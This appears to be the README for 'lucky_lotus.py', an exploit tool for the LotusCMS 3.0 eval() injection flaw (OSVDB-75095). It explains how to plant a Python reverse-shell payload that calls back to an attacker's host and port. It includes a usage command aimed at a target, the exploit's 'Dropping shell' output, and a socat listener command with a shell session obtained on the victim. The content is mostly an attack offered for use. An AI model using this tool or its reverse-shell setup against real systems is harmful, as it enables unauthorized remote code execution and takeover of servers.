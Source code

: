 # Exploit for OSVDB-75095, LotusCMS 3.0 Unauthenticated Remote Code Execution

This is an exploit for the eval() injection vulnerability found ages ago in LotusCMS. Very quick and dirty exploit, written to test out some new ideas I had for writing more streamlined PHP RCE exploits, in this case, using the cookie to set the connectback host/port at runtime when doing a filedropper type thing. I ended up storing the payload itself in a POST variable, as storing it in the cookie lead to some strange encoding issues. See the code for what I mean. The reason for writing this was to have a reliable "playground" in which to test ideas, and it is going to probably be an evolving piece of work.

## Usage

To use, simply select which payload you want to use (currently only back_python.php is available, but I plan on adding back_php.php and back_perl.php at a later date). This is the "payload.php". You also must specify a callback host and port, along with the URL to the vulnerable LotusCMS installation.

Example Use:
```
xrl:~$ python lucky_lotus.py http://192.168.2.118/lcms back_python.php 192.168.2.120 31337

    ▄█       ███    █▄   ▄████████    ▄█   ▄█▄ ▄██   ▄        
   ███       ███    ███ ███    ███   ███ ▄███▀ ███   ██▄      
   ███       ███    ███ ███    █▀    ███▐██▀   ███▄▄▄███      
   ███       ███    ███ ███         ▄█████▀    ▀▀▀▀▀▀███      
   ███       ███    ███ ███        ▀▀█████▄    ▄██   ███      
   ███       ███    ███ ███    █▄    ███▐██▄   ███   ███      
   ███▌    ▄ ███    ███ ███    ███   ███ ▀███▄ ███   ███      
   █████▄▄██ ████████▀  ████████▀    ███   ▀█▀  ▀█████▀       
   ▀                                 ▀                        
  ▄█        ▄██████▄      ███     ███    █▄     ▄████████   
 ███       ███    ███ ▀█████████▄ ███    ███   ███    ███   
 ███       ███    ███    ▀███▀▀██ ███    ███   ███    █▀    
 ███       ███    ███     ███   ▀ ███    ███   ███          
 ███       ███    ███     ███     ███    ███ ▀███████████   
 ███       ███    ███     ███     ███    ███          ███   
 ███▌    ▄ ███    ███     ███     ███    ███    ▄█    ███   
 █████▄▄██  ▀██████▀     ▄████▀   ████████▀   ▄████████▀    
 ▀                                                            
  Exploit for LotusCMS, OSVDB-75095 Version: 20150306.1
{+} Sending our payload...
{+} Using 192.168.2.120:31337 as callback...
{+} Dropping shell...
{+} Shell dropped... Triggering...
{+} got shell?
xrl:~$ 
```

For a listener, I suggest using socat, as per the following example, as it allows a full PTY to be spawned (at least with the reference Python payload).
```
xrl:~$ socat -,echo=0,raw tcp4-listen:31337
Got root yet?
Linux HACKME 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@HACKME:/opt/lampp/htdocs/lcms$ exit
exit
quitting, cleanup
xrl:~$ 
```

## Demo
If you want, check out the [Asciicast demo][asciicast]  
[![asciicast](https://asciinema.org/a/17327.png)](https://asciinema.org/a/17327)

## Licence
Licenced under the [WTFPL][wtfpl]

[asciicast]: https://asciinema.org/a/17327
[wtfpl]: http://www.wtfpl.net/
